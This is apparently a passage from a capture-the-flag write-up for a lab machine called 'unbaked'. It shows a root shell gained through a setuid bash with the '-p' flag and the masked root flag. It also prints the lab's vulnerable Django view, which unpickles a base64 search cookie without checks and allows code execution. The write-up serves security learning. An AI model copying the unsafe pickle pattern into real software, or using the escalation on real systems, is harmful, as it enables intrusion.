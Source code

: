 ## Getting a root shell
```console
oliver@unbaked:~$ /bin/bash -p
bash-4.3# id
uid=1002(oliver) gid=1002(oliver) euid=0(root) groups=1002(oliver),1003(sysadmin)
bash-4.3# 
```
And we are root.

## Reading root flag
```console
bash-4.3# cat /root/root.txt 
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{1ff4c89***********e90a5f}
```

## Beyond root
### Vulnerable code for desearialization vulnerability
```python
def search_articles(request):
    try:
        cookie = request.COOKIES.get('search_cookie')
        cookie = pickle.loads(base64.b64decode(cookie))
    except:
        pass
    if request.method == 'POST':  
        query = request.POST.get('query')
        encoded_cookie = base64.b64encode(pickle.dumps(query)) #dumps pickle
        encoded_cookie = encoded_cookie.decode("utf-8")
        if query:   
            results = Article.objects.filter(Q(title__icontains=query)|Q(body__icontains=query))
        else:
            results = Article.objects.all()
    context = {
        'results':results,
    }
    html = render(request, 'homepage/search.html', context)
    html.set_cookie('search_cookie', encoded_cookie)
    return html
```
On the search_articles function, at first the check is made whether there is **search_cookie** on the cookies and if it exists it is decoded and desearialized using pickle.loads without any sanitization which enabled us to get code execution on the docker container.




